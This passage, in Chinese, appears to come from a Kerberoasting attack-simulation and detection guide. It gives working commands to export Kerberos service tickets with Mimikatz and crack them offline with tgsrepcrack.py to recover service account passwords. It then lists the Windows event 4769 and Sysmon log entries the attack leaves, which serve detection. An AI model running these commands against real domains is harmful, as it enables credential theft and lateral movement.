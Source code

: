 4. **验证票证**：
   ```powershell
   klist
   ```
   - 确认TGS票证存在。

5. **导出票证**：
   使用Mimikatz：
   ```cmd
   mimikatz.exe "kerberos::list /export" exit
   ```
   - 导出为`ticket.kirbi`。

6. **传输票证到攻击机**：
   通过SMB或HTTP将`ticket.kirbi`复制到Kali。

7. **破解哈希**：
   ```bash
   python3 tgsrepcrack.py /usr/share/wordlists/rockyou.txt ticket.kirbi
   ```
   - 输出服务账户密码（如`Password123`）。

8. **结果分析**：
   - 成功：获得服务账户明文密码，可用于进一步攻击。
   - 失败可能：
     - 域用户权限不足。
     - SPN配置错误。
     - 密码字典不包含目标密码。

## 测试留痕

### Windows安全日志
- 事件ID4769：
  ```
  事件ID:4769
  服务名称:MSSQLSvc/DC1.test.com
  账户名:user1
  账户域:TEST
  客户端地址:::ffff:192.168.1.100
  票证选项:0x40810000
  票证加密类型:0x17
  ```

### Sysmon日志
- 事件ID1：
  ```
  事件ID:1
  OriginalFileName:powershell.exe
  CommandLine:powershell -c "Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC1.test.com'"
  CurrentDirectory:C:\Users\user1\
  User:TEST\user1
  Hashes:SHA1=1A2B3C4D5E6F7A8B9C0D1E2F3A4B5C6D7E8F9A0B
  ParentImage:C:\Windows\System32\cmd.exe
  ```
- 事件ID11：
  ```
  事件ID:11
  Image:C:\Windows\System32\mimikatz.exe
  TargetFilename:C:\Users\user1\ticket.kirbi
  ```
